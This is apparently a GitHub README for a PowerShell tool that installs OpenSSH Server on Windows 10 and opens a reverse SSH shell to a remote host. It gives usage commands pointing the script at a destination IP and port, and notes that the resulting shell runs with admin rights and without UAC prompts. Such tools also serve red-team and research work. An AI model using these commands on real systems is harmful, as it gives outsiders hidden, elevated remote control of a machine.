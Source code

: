 # lol-reverseSSHell.ps1
Living Off the LAN - Reverse Shell over SSH

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, it will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it by downloading OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost `<IP Address>`
* .\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
  - OR - 
* Double Click .bat file and enter requested information.

Setup Instructions and Help Documentation: 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows vs Unix Reverse SSH Shells, & the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown Usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the user's name or admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  


